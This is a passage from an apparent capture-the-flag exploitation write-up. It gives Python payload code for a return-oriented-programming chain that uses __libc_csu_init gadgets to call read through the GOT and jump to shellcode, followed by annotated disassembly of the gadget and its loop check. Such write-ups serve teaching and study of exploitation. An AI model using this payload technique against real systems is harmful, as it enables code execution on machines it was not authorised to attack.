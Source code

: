 ```python
   0x00000000004005fa <+61>:    mov    edi,0x0
   0x00000000004005ff <+66>:    mov    eax,0x0
   0x0000000000400604 <+71>:    call   0x400490 <read@plt>
'''
# 0x601020 <read@got.plt>
payload += p(0x0040068a)    # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
payload += p(0x400-1)       # rbx   << needs to be ebp-1 for code path!
payload += p(0x400)         # rbp -> edx = 0x400
payload += p(0x601020-0x3ff*8)  # r12 -> read@got.plt
payload += p(0x0)           # r13 
payload += p(0x20000000)    # r14 -> rsi -> esi = read.addr
payload += p(0x0)           # r15 -> rdi -> edi = 0?
                            # lucky for me, rax = 0
payload += p(0x00400671)    #mov edx, ebp; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
payload += "B"*(200-144)    # spacer

# return to shellcode!
payload += p(0x20000000)

print payload
```

One of the tricky things with the mprotect and read ROP chains is the following. The code at `0x400671`, which I use to set `edx`, looks like this:

```
   0x400671 <__libc_csu_init+65>:   mov    edx,ebp
   0x400673 <__libc_csu_init+67>:   mov    rsi,r14
   0x400676 <__libc_csu_init+70>:   mov    edi,r15d
   0x400679 <__libc_csu_init+73>:   call   QWORD PTR [r12+rbx*8]
   0x40067d <__libc_csu_init+77>:   add    rbx,0x1
   0x400681 <__libc_csu_init+81>:   cmp    rbx,rbp  
   0x400684 <__libc_csu_init+84>:   jne    0x400670 <__libc_csu_init+64>
   0x400686 <__libc_csu_init+86>:   add    rsp,0x8
   0x40068a <__libc_csu_init+90>:   pop    rbx
   0x40068b <__libc_csu_init+91>:   pop    rbp
   0x40068c <__libc_csu_init+92>:   pop    r12
   0x40068e <__libc_csu_init+94>:   pop    r13
   0x400690 <__libc_csu_init+96>:   pop    r14
   0x400692 <__libc_csu_init+98>:   pop    r15
   0x400694 <__libc_csu_init+100>:  ret    
```

First `ebp` is copied to `edx`. Then `rsi` and `edi` are set. Then we call the QWORD pointer at a memory address referenced by `esi` and `ebx`. I chose to `esi` and `ebx` such that they point to the got pointer of mprotect. 

The problem arises after returning from the mprotect call:

```bash
   0x40067d <__libc_csu_init+77>:   add    rbx,0x1
   0x400681 <__libc_csu_init+81>:   cmp    rbx,rbp
   0x400684 <__libc_csu_init+84>:   jne    0x400670 <__libc_csu_init+64>
```
